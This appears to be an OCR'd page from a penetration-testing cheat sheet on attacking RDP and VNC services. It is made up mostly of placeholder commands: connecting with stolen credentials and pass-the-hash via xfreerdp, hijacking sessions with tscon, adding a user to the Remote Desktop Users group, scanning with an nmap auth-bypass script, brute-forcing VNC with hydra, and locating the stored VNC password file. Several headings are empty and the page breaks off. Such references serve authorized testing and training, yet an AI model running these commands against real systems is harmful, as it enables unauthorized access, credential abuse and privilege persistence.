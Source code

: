 ### Connect with known credentials / hash

```
rdesktop -u <USERNAME> <IP>
rdesktop -d <DOMAIN> -u <USERNAME> -p <PASSWORD> <IP>

xfreerdp /u:[DOMAIN\]<USERNAME> /p:<PASSWORD> /v:<IP>
xfreerdp /u:[DOMAIN\]<USERNAME> /pth:<HASH> /v:<IP>
```

### Session stealing

#### Get openned sessions

#### Access to the selected

```
tscon <ID> /dest:<SESSIONNAME>
```

### Adding user to RDP group (Windows)

```
net localgroup "Remote Desktop Users" <USER> /add
```

---

## VNC - 5800 - 58001 - 5900 - 5901

### Scans

```
nmap -sV --script vnc-info,realvnc-auth-bypass,vnc-title -v -p <PORT> <IP>
```

### Brute force

```
hydra -L <USERS_LIST> –P <PASSWORDS_LIST> -s <PORT> <IP> vnc -u -vV
```

### Connect

### Found VNC password

#### Linux

```
Default password is stored in: ~/.vnc/passwd
```

#### Windows
